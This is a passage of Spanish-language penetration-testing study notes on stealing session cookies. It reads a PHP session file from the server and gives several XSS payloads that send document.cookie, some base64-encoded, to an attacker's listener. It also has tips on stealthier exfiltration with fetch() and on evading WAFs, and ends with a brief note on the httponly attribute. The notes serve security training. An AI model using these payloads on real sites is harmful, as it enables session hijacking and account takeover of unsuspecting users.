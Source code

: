 Ejemplo:

![[Pasted image 20230127135348.png]]

```bash
cat /var/lib/php/sessions/sess_s6kitq8d3071rmlvbfitpim9mm
```

![[Pasted image 20230127135356.png]]

## Obtención de cookies de sesión a través de XSS

>[!warning]
>Se necesita interaccion del usuario.

Cuando vemos un campo vulnerable a XSS (Sobretodo de tipo almacenado) podemos usar cualquier payload para robar las cokkies y enviarnoslas a un servidor web o por exfilrtacion de DNS:

```javascript
<style>@keyframes x{}</style><video style="animation-name:x" onanimationend="window.location = 'http://<VPN/TUN Adapter IP>:8000/log.php?c=' + document.cookie;"></video>
```

![[Pasted image 20230127141655.png]]

>[!tip]
>Este payload sirve hasta para evadir proteccion en algunos casos.

otros payloads:

```javascript
//envio de la cookie en base64
<h1 onmouseover='document.write(`<img src="https://CUSTOMLINK?cookie=${btoa(document.cookie)}">`)'>test</h1>
```

No necesariamente tenemos que usar el `window.location()`objeto que hace que las víctimas sean redirigidas. Podemos usar `fetch()`, que puede obtener datos (cookies) y enviarlos a nuestro servidor sin redireccionamientos. Esta es una forma más sigilosa.

```javascript
<script>fetch(`http://<VPN/TUN Adapter IP>:8000?cookie=${btoa(document.cookie)}`)</script>
```

nos montamos un servidor en python y obtenemos las cookies:

![[Pasted image 20230127142847.png]]


>[!tip]
>Cualquier otro payload que haga lo mismo (enviar cookies por HTTP u otro protocolo) es valido, hay muchos y algunos extraños para evadir WAF.

### PROTECION

>[!note]
>Esto es valido si el token de sesion **se alamcena en las cookies** y dicha cookie tiene el atributo `httponly = false`
